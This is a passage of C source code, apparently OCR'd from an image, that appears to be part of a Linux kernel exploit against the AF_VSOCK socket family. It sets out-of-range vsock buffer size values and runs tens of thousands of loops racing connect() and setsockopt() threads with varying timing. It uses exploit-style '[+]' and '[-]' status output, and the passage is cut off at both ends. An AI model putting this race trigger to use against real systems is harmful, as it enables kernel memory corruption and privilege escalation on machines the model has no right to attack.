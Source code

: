         return NULL;
    }

    void *th_setsockopt(void *arg)
    {
        int ret = -1;
        long lag_nsec = *((long *)arg) * 1000;
        struct timespec tp;
        unsigned long size = 0;

        ret = thread_sync(lag_nsec);
        if (ret != EXIT_SUCCESS) {
            tfail++;
            return NULL;
        }

        clock_gettime(CLOCK_MONOTONIC, &tp);
        size = tp.tv_nsec;
        setsockopt(vsock, PF_VSOCK, SO_VM_SOCKETS_BUFFER_SIZE,
                            &size, sizeof(unsigned long));

        return NULL;
    }

    int main(void)
    {
        int ret = -1;
        unsigned long size = 0;
        long loop = 0;
        pthread_t th[2] = { 0 };

        vsock = socket(AF_VSOCK, SOCK_STREAM, 0);
        if (vsock == -1)
            err_exit("[-] open vsock");

        printf("[+] AF_VSOCK socket is opened\n");

        size = 1;
        setsockopt(vsock, PF_VSOCK, SO_VM_SOCKETS_BUFFER_MIN_SIZE,
                            &size, sizeof(unsigned long));
        size = 0xfffffffffffffffdlu;
        setsockopt(vsock, PF_VSOCK, SO_VM_SOCKETS_BUFFER_MAX_SIZE,
                            &size, sizeof(unsigned long));

        ret = pthread_barrier_init(&barrier, NULL, 2);
        if (ret != 0)
            err_exit("[-] pthread_barrier_init");

        for (loop = 0; loop < 30000; loop++) {
            long tmo1 = 0;
            long tmo2 = loop % MAX_RACE_LAG_USEC;

            printf("race loop %ld: tmo1 %ld, tmo2 %ld\n", loop, tmo1, tmo2);

            ret = pthread_create(&th[0], NULL, th_connect, &tmo1);
            if (ret != 0)
                err_exit("[-] pthread_create #0");
